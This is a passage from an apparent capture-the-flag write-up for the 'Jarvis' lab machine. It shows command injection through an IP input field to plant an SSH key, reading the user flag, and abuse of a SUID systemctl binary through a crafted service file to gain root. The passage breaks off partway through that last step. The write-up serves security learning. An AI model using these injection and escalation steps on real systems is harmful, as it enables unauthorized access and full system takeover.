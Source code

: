 We then create the `.ssh` folder in pepper home and move the key:

    :::text
    Enter an IP: $(mkdir /home/pepper/.ssh)
    Enter an IP: $(mv authorized_keys /home/pepper/.ssh/)

We can then connect to the box with ssh and get the user flag:

    :::text
    ssh -lpepper 10.10.10.143
    Linux jarvis 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64
    <SNIP>
    Last login: Thu Oct  3 09:38:52 2019 from 10.10.15.31
    pepper@jarvis:~$ cat user.txt 
    2afa36<redacted>

# Let's get root

We enumerate the box as always.
We found that the systemctl binary is SUID.

    :::text
    pepper@jarvis:~$ find / -uid 0 -perm -4000 -type f 2>/dev/null
    /bin/fusermount
    /bin/mount
    /bin/ping
    /bin/systemctl
    /bin/umount
    /bin/su
    /usr/bin/newgrp
    /usr/bin/passwd
    /usr/bin/gpasswd
    /usr/bin/chsh
    /usr/bin/sudo
    /usr/bin/chfn
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/openssh/ssh-keysign
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper

[GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#suid) show how
to exploit that misconfiguration.
First we create a temporary file:

    :::text
    pepper@jarvis:~$ TF=$(mktemp).service

We write a service file inside. This service run the command `id` and put the
result in a file:

    :::text
    pepper@jarvis:~$ echo '[Service]
    > Type=oneshot
    > ExecStart=/bin/sh -c "id > /tmp/output"
    > [Install]
    > WantedBy=multi-user.target' > $TF
